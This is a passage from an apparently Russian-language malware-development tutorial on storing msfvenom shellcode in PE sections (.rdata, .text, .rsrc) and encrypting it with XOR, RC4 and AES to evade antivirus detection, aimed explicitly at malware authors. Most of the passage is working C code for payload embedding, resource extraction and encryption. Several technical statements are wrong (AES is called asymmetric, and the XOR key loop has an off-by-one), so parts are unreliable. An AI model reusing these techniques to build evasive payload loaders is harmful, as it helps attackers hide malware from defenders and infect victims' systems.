0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};
int main() {
printf("[i] Rdata_RawData var : 0x%p \n", Rdata_RawData);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}Изображение ниже показывает результат выполнения команды dumpbin.exe на файле PE. Установка среды выполнения C++ Visual Studio автоматически загрузит dumpbin.exe.
Команда: dumpbin.exe /ALL <binary-file.exe>
Прокрутите вниз и посмотрите детали раздела .rdata, который содержит данные, сохраненные в исходном двоичном формате.


Раздел .text
В разделе .text компилятор сохраняет код программы.
Поэтому Сохранение переменных в разделе .text отличается от их сохранения в разделах .data или .rdata.
Здесь речь не идет просто о объявлении случайной переменной. Нужно указать компилятору сохранить ее в разделе .text, что демонстрируется в приведенном ниже фрагменте кода.
Код:
#include <Windows.h>#include <stdio.h>// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .text saved payload
#pragma section(".text")__declspec(allocate(".text")) const unsigned char Text_RawData[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};
int main() {
printf("[i] Text_RawData var : 0x%p \n", Text_RawData);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}Здесь компилятору указано разместить переменную Text_rawData в разделе .text вместо раздела .rdata.
Особенность раздела .text заключается в том, что он хранит переменные с правами на выполнение в памяти, позволяя их выполнение напрямую без необходимости редактирования прав доступа к региону памяти. Это полезно для небольших полезных нагрузок, размер которых примерно меньше 10 байт.
При изучении двоичного файла, скомпилированного из приведенного выше фрагмента кода с помощью инструмента PE-Bear, видно, что полезная нагрузка находится в регионе .text.

Раздел .rsrc
Сохранение полезной нагрузки в разделе .rsrc является одним из лучших вариантов, так как именно здесь большинство реальных двоичных файлов сохраняют свои данные. Это также более чистый метод для авторов вредоносных программ, поскольку большие полезные нагрузки не могут быть сохранены в разделах .data или .rdata из-за ограничений по размеру, что приводит к ошибкам от Visual Studio во время компиляции.
Ниже приведены шаги по сохранению полезной нагрузки в разделе .rsrc.
1.Внутри Visual Studio щелкните правой кнопкой мыши на 'Resource files' (Ресурсные файлы), затем выберите Add (Добавить) > New Item (Новый элемент).

2.Кликните на 'Resource File'.

3. Это действие вызовет новую боковую панель, "Просмотр ресурсов" (Resource View). Щелкните правой кнопкой мыши на файле .rc (по умолчанию имя файла - Resource.rc) и выберите опцию "Добавить ресурс" ('Add Resource').
Продолжите следовать инструкциям, чтобы завершить добавление вашего ресурса в раздел .rsrc. Обычно после этого шага вам предложат выбрать тип ресурса, который вы хотите добавить (например, иконка, изображение, строка и т. д.), а затем предоставить соответствующие данные или файлы для этого ресурса.

4. Кликните на 'Import'.

5. Выберите файл calc.ico, который является исходной полезной нагрузкой, переименованной с расширением .ico.

6. Появится запрос на указание типа ресурса. Введите "RCDATA" без кавычек.
Примечание: "RCDATA" - это стандартный тип ресурса в Windows для хранения произвольных данных в двоичном формате.

7. После нажатия кнопки ОК полезная нагрузка должна отображаться в исходном двоичном формате внутри проекта Visual Studio.
Убедитесь, что вы проверили ресурсный файл и удостоверились, что он содержит ожидаемые данные. Если все выполнено правильно, вы сможете увидеть свою полезную нагрузку внутри файла ресурсов и, при необходимости, использовать ее в дальнейших этапах разработки.

8. При выходе из "Просмотра ресурсов" (Resource View) должен быть виден заголовочный файл "resource.h", который назван в соответствии с файлом .rc из шага 2. Этот файл содержит оператор define, который ссылается на идентификатор полезной нагрузки в разделе ресурсов (IDR_RCDATA1). Это важно, чтобы в дальнейшем иметь возможность извлечь полезную нагрузку из раздела ресурсов.
Убедитесь, что у вас есть доступ к этому идентификатору, когда вы будете извлекать полезную нагрузку из вашего исполняемого файла.

После компиляции полезная нагрузка теперь будет храниться в разделе .rsrc, но к ней нельзя будет обратиться напрямую. Вместо этого необходимо использовать несколько WinAPI для доступа к ней.
FindResourceW - получить местоположение указанных данных, сохраненных в разделе ресурсов с особым переданным ID (он определен в заголовочном файле).
LoadResource - получает дескриптор HGLOBAL данных ресурса. Этот дескриптор может быть использован для получения базового адреса указанного ресурса в памяти.
LockResource - получает указатель на указанные данные в разделе ресурсов по его дескриптору.
SizeofResource - получает размер указанных данных в разделе ресурсов. Ниже приведен фрагмент кода, который использует вышеупомянутые Windows API для доступа к разделу .rsrc и извлечения адреса и размера полезной нагрузки.
Код:
#include <Windows.h>#include <stdio.h>#include "resource.h"int main() {
HRSRC hRsrc = NULL;
HGLOBAL hGlobal = NULL;
PVOID pPayloadAddress = NULL;
SIZE_T sPayloadSize = NULL;
// Get the location to the data stored in .rsrc by its id *IDR_RCDATA1*
hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
if (hRsrc == NULL) {
// in case of function failure
printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
return -1;
}
// Get HGLOBAL, or the handle of the specified resource data since its required to call LockResource later
hGlobal = LoadResource(NULL, hRsrc);
if (hGlobal == NULL) {
// in case of function failure
printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
return -1;
}
// Get the address of our payload in .rsrc section
pPayloadAddress = LockResource(hGlobal);
if (pPayloadAddress == NULL) {
// in case of function failure
printf("[!] LockResource Failed With Error : %d \n", GetLastError());
return -1;
}
// Get the size of our payload in .rsrc section
sPayloadSize = SizeofResource(NULL, hRsrc);
if (sPayloadSize == NULL) {
// in case of function failure
printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
return -1;
}
// Printing pointer and size to the screen
printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}После компиляции и запуска приведенного выше кода адрес полезной нагрузки вместе с ее размером будет выведен на экран. Важно отметить, что этот адрес находится в разделе .rsrc, который представляет собой память только для чтения, и любые попытки изменить или редактировать данные внутри него приведут к ошибке нарушения доступа. Для редактирования полезной нагрузки необходимо выделить буфер такого же размера, как полезная нагрузка, и скопировать его. В этом новом буфере можно вносить изменения, такие как дешифрование полезной нагрузки.
Обновление полезной нагрузки в .rsrc
Поскольку полезную нагрузку нельзя напрямую редактировать из раздела ресурсов, ее необходимо переместить во временный буфер.
Для этого память выделяется размером полезной нагрузки с использованием HeapAlloc, а затем полезная нагрузка перемещается из раздела ресурсов в временный буфер с использованием memcpy.
Код:
// Allocating memory using a HeapAlloc call
PVOID pTmpBuffer = HeapAlloc(GetProcessHeap(), 0, sPayloadSize);
if (pTmpBuffer != NULL){
// copying the payload from resource section to the new buffer
memcpy(pTmpBuffer, pPayloadAddress, sPayloadSize);
}
// Printing the base address of our buffer (pTmpBuffer)
printf("[i] pTmpBuffer var : 0x%p \n", pTmpBuffer);Так как pTmpBuffer теперь указывает на область памяти, в которой можно записывать и которая содержит полезную нагрузку, становится возможным расшифровать полезную нагрузку или внести в нее любые обновления.
Изображение ниже показывает shellcode Msfvenom, сохраненный в разделе ресурсов.

Продолжая выполнение, полезная нагрузка сохраняется во временном буфере.

Шифруем Payload
В предыдущей статье мы рассмотрели где хранить полезную нагрузку (Payload), но как было сказано в коментарии к статье, для обхода детекта нужно много чего сделать, в частности нужно зашифровать Payload и ещё позаботится об антиэмуляции и скрытия поведения.
В этой статье рассмотрим пока-что как шифровать.)
Шифрование с использованием XOR
Шифрование с использованием XOR является самым простым в использовании и легким в реализации, что делает его популярным выбором для вредоносных программ. Оно быстрее, чем AES и RC4, и не требует дополнительных библиотек или использования API Windows. Кроме того, это симметричный алгоритм шифрования, который позволяет использовать одну и ту же функцию как для шифрования, так и для дешифрования.
Шифрование XOR Приведенный ниже фрагмент кода показывает базовую функцию шифрования XOR. Функция просто применяет операцию XOR к каждому байту шеллкода с 1-байтовым ключом.
C:
/*
- pShellcode : Base address of the payload to encrypt
- sShellcodeSize : The size of the payload
- bKey : A single arbitrary byte representing the key for encrypting the payload
*/
VOID XorByOneKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN BYTE bKey) {
for (size_t i = 0; i < sShellcodeSize; i++){
pShellcode[i] = pShellcode[i] ^ bKey;
}
}Дополнение: Хотя XOR обладает определенными преимуществами в виде скорости и простоты, он не считается безопасным для большинства серьезных приложений шифрования. Если атакующий имеет доступ к исходному и зашифрованному текстам, он может легко восстановить ключ. Кроме того, если один и тот же ключ используется многократно, это также может привести к уязвимостям.
Защита ключа шифрования
Некоторые инструменты и решения по безопасности могут подбирать ключ методом грубой силы, что позволит расшифровать шеллкод. Чтобы усложнить подбор ключа этим инструментам, приведенный ниже код вносит незначительные изменения, увеличивая ключевое пространство за счет добавления переменной i к ключу. Теперь, когда ключевое пространство значительно больше, гораздо сложнее подобрать ключ методом грубой силы.
C:
/*
- pShellcode : Базовый адрес полезной нагрузки для шифрования
- sShellcodeSize : Размер полезной нагрузки
- bKey : Один произвольный байт, представляющий ключ для шифрования полезной нагрузки
*/
VOID XorByiKeys(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN BYTE bKey) {
for (size_t i = 0; i < sShellcodeSize; i++) {
pShellcode[i] = pShellcode[i] ^ (bKey + i);
}
}Приведенный выше фрагмент кода все же можно сделать более надежным. В следующем фрагменте кода процесс шифрования осуществляется с ключом, используя каждый байт ключа повторно, что усложняет взлом ключа.
C:
/*
- pShellcode : Базовый адрес полезной нагрузки для шифрования
- sShellcodeSize : Размер полезной нагрузки
- bKey : Случайный массив байтов определенного размера
- sKeySize : Размер ключа
*/
VOID XorByInputKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
if (j > sKeySize){
j = 0;
}
pShellcode[i] = pShellcode[i] ^ bKey[j];
}
}Заключение
Рекомендуется использовать шифрование XOR для небольших задач, таких как скрытие строк.
Однако для более крупных полезных нагрузок рекомендуется использовать более безопасные методы шифрования, такие как AES.
Шифрование полезной нагрузки - RC4
Введение RC4 - это быстрый и эффективный потоковый шифр, который также является симметричным алгоритмом шифрования, позволяющим использовать одну и ту же функцию как для шифрования, так и для дешифрования.
Есть несколько реализаций RC4 на C, доступных публично, но в этой статье будут продемонстрированы три способа выполнения шифрования RC4.
Примечание: главная цель этой статьи - не вникать в детали работы алгоритма RC4, а шифровать полезную нагрузку для избежания обнаружения.
RC4 Шифрование - Метод 1
Существуют две функции rc4Init и rc4Cipher, которые используются для инициализации структуры rc4context и выполнения шифрования RC4 соответственно.
C:
typedef struct
{
unsigned int i;
unsigned int j;
unsigned char s[256];
} Rc4Context;
void rc4Init(Rc4Context* context, const unsigned char* key, size_t length)
{
unsigned int i;
unsigned int j;
unsigned char temp;
// Check parameters
if (context == NULL || key == NULL)
return ERROR_INVALID_PARAMETER;
// Clear context
context->i = 0;
context->j = 0;
// Initialize the S array with identity permutation
for (i = 0; i < 256; i++)
{
context->s[i] = i;
}
// S is then processed for 256 iterations
for (i = 0, j = 0; i < 256; i++)
{
//Randomize the permutations using the supplied key
j = (j + context->s[i] + key[i % length]) % 256;
//Swap the values of S[i] and S[j]
temp = context->s[i];
context->s[i] = context->s[j];
context->s[j] = temp;
}
}
void rc4Cipher(Rc4Context* context, const unsigned char* input, unsigned char* output, size_t length){
unsigned char temp;
// Restore context
unsigned int i = context->i;
unsigned int j = context->j;
unsigned char* s = context->s;
// Encryption loop
while (length > 0)
{
// Adjust indices
i = (i + 1) % 256;
j = (j + s[i]) % 256;
// Swap the values of S[i] and S[j]
temp = s[i];
s[i] = s[j];
s[j] = temp;
// Valid input and output?
if (input != NULL && output != NULL)
{
//XOR the input data with the RC4 stream
*output = *input ^ s[(s[i] + s[j]) % 256];
//Increment data pointers
input++;
output++;
}
// Remaining bytes to process
length--;
}
// Save context
context->i = i;
context->j = j;
}Пример шифрования:
C:
// Initialization
Rc4Context ctx = { 0 };
// Key used for encryption
unsigned char* key = "ru-sfera.pw";
rc4Init(&ctx, key, sizeof(key));
// Encryption //
// plaintext - The payload to be encrypted
// ciphertext - A buffer that is used to store the outputted encrypted data
rc4Cipher(&ctx, plaintext, ciphertext, sizeof(plaintext));Пример расшифровки:
Код:
// Initialization
Rc4Context ctx = { 0 };
// Key used to decrypt
unsigned char* key = "ru-sfera.pw";
rc4Init(&ctx, key, sizeof(key));
// Decryption //
// ciphertext - Encrypted payload to be decrypted
// plaintext - A buffer that is used to store the outputted plaintext data
rc4Cipher(&ctx, ciphertext, plaintext, sizeof(ciphertext));RC4 Шифрование - Метод 2
Неудокументированный Windows NTAPI SystemFunction032 предлагает более быструю и меньшую реализацию алгоритма RC4.
Использование SystemFunction032 для шифрования с помощью RC4
Функция SystemFunction032 представляет собой неудокументированное API Windows, которое предоставляет реализацию алгоритма шифрования RC4. Несмотря на то что это API не документировано Microsoft, оно широко известно и используется разработчиками программного обеспечения, в том числе благодаря таким проектам, как Wine, который предоставляет дополнительные сведения об этой функции.
SystemFunction032
В соответствии с документацией на странице Wine API, функция SystemFunction032 принимает два параметра типа USTRING.
C:
NTSTATUS SystemFunction032
(
struct ustring* data,
const struct ustring* key
)Структура USTRING
Поскольку это неудокументированное API, структура USTRING изначально неизвестна. Однако, благодаря дополнительным исследованиям и ресурсам, таким как Wine, стало возможным определить эту структуру:
C:
typedef struct
{
DWORD Length; // Размер данных для шифрования/дешифрования
DWORD MaximumLength; // Максимальный размер данных для шифрования/дешифрования
PVOID Buffer; // Базовый адрес данных для шифрования/дешифрования
} USTRING;Использование SystemFunction032
Для использования SystemFunction032 необходимо сначала получить ее адрес. Эта функция экспортируется из advapi32.dll, поэтому эту DLL необходимо загрузить в процесс с помощью функции LoadLibrary. Возвращаемое значение этой функции может быть непосредственно использовано в GetProcAddress для получения адреса SystemFunction032.
C:
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032) GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");Функция указателя на SystemFunction032 определена как тип данных fnSystemFunction032:
C:
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
struct USTRING* Data, // Структура типа USTRING, содержащая информацию о буфере для шифрования/дешифрования
struct USTRING* Key // Структура типа USTRING, содержащая информацию о ключе, используемом при шифровании/дешифровании
);Затем можно использовать SystemFunction032 для шифрования и дешифрования данных, передавая соответствующий ключ и данные в структурах USTRING.
Важно отметить, что использование неудокументированных функций может быть рискованным, так как поведение или доступность таких функций может измениться в будущих версиях ОС или обновлениях.
Пример использование функции SystemFunction032:
C:
typedef struct
{
DWORD Length;
DWORD MaximumLength;
PVOID Buffer;
} USTRING;
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
struct USTRING* Data,
struct USTRING* Key
);
/*
Helper function that calls SystemFunction032
* pRc4Key - The RC4 key use to encrypt/decrypt
* pPayloadData - The base address of the buffer to encrypt/decrypt
* dwRc4KeySize - Size of pRc4key (Param 1)
* sPayloadSize - Size of pPayloadData (Param 2)
*/
BOOL Rc4EncryptionViaSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
NTSTATUS STATUS = NULL;
USTRING Data = {
.Buffer = pPayloadData,
.Length = sPayloadSize,
.MaximumLength = sPayloadSize
};
USTRING Key = {
.Buffer = pRc4Key,
.Length = dwRc4KeySize,
.MaximumLength = dwRc4KeySize
},
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
printf("[!] SystemFunction032 FAILED With Error: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}RC4 Шифрование - Метод 3
Еще один способ реализации алгоритма RC4 - использование SystemFunction033, которое принимает те же параметры, что и ранее показанная функция SystemFunction032.
C:
typedef struct
{
DWORD Length;
DWORD MaximumLength;
PVOID Buffer;
} USTRING;
typedef NTSTATUS(NTAPI* fnSystemFunction033)(
struct USTRING* Data,
struct USTRING* Key
);
/*
Helper function that calls SystemFunction033
* pRc4Key - The RC4 key use to encrypt/decrypt
* pPayloadData - The base address of the buffer to encrypt/decrypt
* dwRc4KeySize - Size of pRc4key (Param 1)
* sPayloadSize - Size of pPayloadData (Param 2)
*/
BOOL Rc4EncryptionViSystemFunc033(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
NTSTATUS STATUS = NULL;
USTRING Key = {
.Buffer = pRc4Key,
.Length = dwRc4KeySize,
.MaximumLength = dwRc4KeySize
};
USTRING Data = {
.Buffer = pPayloadData,
.Length = sPayloadSize,
.MaximumLength = sPayloadSize
};
fnSystemFunction033 SystemFunction033 = (fnSystemFunction033)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction033");
if ((STATUS = SystemFunction033(&Data, &Key)) != 0x0) {
printf("[!] SystemFunction033 FAILED With Error: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Формат ключа шифрования/дешифрования
Имейте в виду, что внедрение открытого текстового ключа в бинарный файл считается плохой практикой и может быть легко извлечено при анализе вредоносного ПО. В будущих статьях будут представлены решения, обеспечивающие невозможность легкого извлечения ключа.
Различные методы представления ключа
При реализации процесса шифрования важно правильно представить ключ шифрования. Ключ может быть представлен разными способами в зависимости от конкретных требований к безопасности, удобства и других аспектов.
- Прямое представление ключа в виде строки: Простейший и наиболее понятный способ. Однако, такое представление может быть легко обнаружено и извлечено из исполняемого файла при анализе.
unsigned char* key = "ru-sfera.pw"; - Представление ключа в виде массива шестнадцатеричных байтов: Это немного менее очевидно для человеческого глаза при просмотре исходного кода, но остается простым для анализа.
unsigned char key[] = {
0x6D, 0x61, 0x6C, 0x64, 0x65, 0x76, 0x31, 0x32, 0x33
}; - Представление ключа в виде шестнадцатеричной строки (экранированной последовательностью): Похоже на предыдущий метод, но представляет собой строку.
unsigned char* key = "\x6D\x61\x64\x65\x76\x31\x32\x33"; - Представление ключа через стек строк: Этот метод маскирует ключ, представляя его в виде массива символов. Это может создать дополнительный уровень сложности для автоматических инструментов анализа.
unsigned char key[] = {
'r', 'u', '-', 's', 'f', 'e','r', 'a', '.', 'p','w'
};
Шифрование AES (Стандарт Современного Шифрования)
Теперь давайте рассмотрим более безопасный алгоритм шифрования, известный как AES (Advanced Encryption Standard). Это ассимитричный алгоритм шифрования, что означает использование нескольких ключей для шифрования/расшифрования.
Существует несколько видов шифрования AES, таких как AES128, AES192 и AES256, которые отличаются размером ключа. Например, AES128 использует 128-битный ключ, в то время как AES256 использует 256-битный ключ.
К тому же, AES может использовать различные режимы работы блочных шифров, такие как CBC и GCM. В зависимости от режима работы AES требуется дополнительный компонент вместе с ключом шифрования, называемый вектором инициализации или IV. Использование IV добавляет дополнительный уровень безопасности к процессу шифрования.
Независимо от выбранного типа AES, AES всегда требует ввод в 128 бит и выводит блоки в 128 бит. Важно помнить, что входные данные должны быть кратны 16 байтам (128 бит). Если шифруемая полезная нагрузка не кратна 16 байтам, то требуется увеличение размера полезной нагрузки и приведения ее к кратности 16 байтам.
В статье предоставлены пример кода, который использует AES256-CBC. Пример использует WinAPI. Стоит отметить, что, поскольку используется AES256-CBC, код использует 32-байтный ключ и 16-байтный IV. Это может измениться, если в коде используется другой тип или режим AES.
Шифрование с использованием WinAPI (библиотека bCrypt)
Существует несколько способов реализации алгоритма шифрования AES. В этом разделе используется библиотека bCrypt (bcrypt.h) для выполнения шифрования AES.
Структура AES
Для начала создается структура AES, которая содержит необходимые данные для выполнения шифрования и дешифрования.
C:
typedef struct _AES {
PBYTE pPlainText; // базовый адрес исходного текста
DWORD dwPlainSize; // размер исходного текста
PBYTE pCipherText; // базовый адрес зашифрованных данных
DWORD dwCipherSize; // его размер (может измениться относительно dwPlainSize, если было дополнение)
PBYTE pKey; // 32-байтный ключ
PBYTE pIv; // 16-байтный IV
} AES, *PAES;Обертка для упрощения использования алгоритма (Функция шифрования)
Функция SimpleEncryption имеет шесть параметров, используемых для инициализации структуры AES. После инициализации структуры функция вызывает InstallAesEncryption для выполнения процесса шифрования AES. Отметим, что два из ее параметров являются исходящими параметрами, поэтому функция возвращает следующее:
pCipherTextData - указатель на вновь выделенный буфер кучи, содержащий данные шифротекста.
sCipherTextSize - размер буфера шифротекста.
Функция возвращает TRUE, если InstallAesEncryption завершается успешно, иначе FALSE.
C:
// Функция-обертка для InstallAesEncryption, упрощающая процесс
BOOL SimpleEncryption(IN PVOID pPlainTextData, IN DWORD sPlainTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pCipherTextData, OUT DWORD* sCipherTextSize) {
if (pPlainTextData == NULL || sPlainTextSize == NULL || pKey == NULL || pIv == NULL)
return FALSE;
// Инициализация структуры
AES Aes = {
.pKey = pKey,
.pIv = pIv,
.pPlainText = pPlainTextData,
.dwPlainSize = sPlainTextSize
};
if (!InstallAesEncryption(&Aes)) {
return FALSE;
}
// Сохранение вывода
*pCipherTextData = Aes.pCipherText;
*sCipherTextSize = Aes.dwCipherSize;
return TRUE;
}Обертка для упрощения использования алгоритма (Функция расшифровки)
Функция SimpleDecryption также имеет шесть параметров и работает аналогично SimpleEncryption, но с отличием в том, что она вызывает функцию InstallAesDecryption и возвращает два других значения.
pPlainTextData - указатель на вновь выделенный буфер кучи, содержащий данные исходного текста.
sPlainTextSize - размер буфера исходного текста.
Функция возвращает TRUE, если InstallAesDecryption завершается успешно, иначе FALSE.
Код:
// Функция-обертка для InstallAesDecryption, упрощающая процесс
BOOL SimpleDecryption(IN PVOID pCipherTextData, IN DWORD sCipherTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pPlainTextData, OUT DWORD* sPlainTextSize) {
if (pCipherTextData == NULL || sCipherTextSize == NULL || pKey == NULL || pIv == NULL)
return FALSE;
// Инициализация структуры
AES Aes = {
.pKey = pKey,
.pIv = pIv,
.pCipherText = pCipherTextData,
.dwCipherSize = sCipherTextSize
};
if (!InstallAesDecryption(&Aes)) {
return FALSE;
}
// Сохранение вывода
*pPlainTextData = Aes.pPlainText;
*sPlainTextSize = Aes.dwPlainSize;
return TRUE;
}Функция InstallAesEncryption
Функция InstallAesEncryption выполняет шифрование по методу AES.
Функция имеет один параметр, PAES, который является указателем на заполненную структуру AES. Функции библиотеки bCrypt, используемые в этой функции, показаны ниже.
BCryptOpenAlgorithmProvider - Используется для загрузки поставщика BCRYPT_AES_ALGORITHM Cryptographic Next Generation (CNG), чтобы обеспечить использование криптографических функций.
BCryptGetProperty - Эта функция вызывается дважды: в первый раз для получения значения BCRYPT_OBJECT_LENGTH и во второй раз для извлечения значения идентификатора свойства BCRYPT_BLOCK_LENGTH.
BCryptSetProperty - Используется для инициализации идентификатора свойства BCRYPT_OBJECT_LENGTH.
BCryptGenerateSymmetricKey - Используется для создания объекта ключа из входного ключа AES.
BCryptEncrypt - Используется для шифрования указанного блока данных. Эта функция вызывается дважды: первый вызов получает размер зашифрованных данных, чтобы выделить буфер кучи этого размера. Второй вызов шифрует данные и сохраняет шифртекст в выделенной куче.
BCryptDestroyKey - Используется для очистки путем уничтожения объекта ключа, созданного с использованием BCryptGenerateSymmetricKey.
BCryptCloseAlgorithmProvider - Используется для очистки путем закрытия дескриптора объекта алгоритма, созданного ранее с использованием BCryptOpenAlgorithmProvider.
Функция возвращает TRUE, если успешно шифрует полезную нагрузку, в противном случае - FALSE.
C:
// The encryption implementation
BOOL InstallAesEncryption(PAES pAes) {
BOOL bSTATE = TRUE;
BCRYPT_ALG_HANDLE hAlgorithm = NULL;
BCRYPT_KEY_HANDLE hKeyHandle = NULL;
ULONG cbResult = NULL;
DWORD dwBlockSize = NULL;
DWORD cbKeyObject = NULL;
PBYTE pbKeyObject = NULL;
PBYTE pbCipherText = NULL;
DWORD cbCipherText = NULL,
// Intializing "hAlgorithm" as AES algorithm Handle
STATUS = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptOpenAlgorithmProvider Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Getting the size of the key object variable pbKeyObject. This is used by the BCryptGenerateSymmetricKey function later
STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGetProperty[1] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Getting the size of the block used in the encryption. Since this is AES it must be 16 bytes.
STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_BLOCK_LENGTH, (PBYTE)&dwBlockSize, sizeof(DWORD), &cbResult, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGetProperty[2] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Checking if block size is 16 bytes
if (dwBlockSize != 16) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Allocating memory for the key object
pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);
if (pbKeyObject == NULL) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Setting Block Cipher Mode to CBC. This uses a 32 byte key and a 16 byte IV.
STATUS = BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptSetProperty Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Generating the key object from the AES key "pAes->pKey". The output will be saved in pbKeyObject and will be of size cbKeyObject
STATUS = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, (PBYTE)pAes->pKey, KEYSIZE, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGenerateSymmetricKey Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Running BCryptEncrypt first time with NULL output parameters to retrieve the size of the output buffer which is saved in cbCipherText
STATUS = BCryptEncrypt(hKeyHandle, (PUCHAR)pAes->pPlainText, (ULONG)pAes->dwPlainSize, NULL, pAes->pIv, IVSIZE, NULL, 0, &cbCipherText, BCRYPT_BLOCK_PADDING);
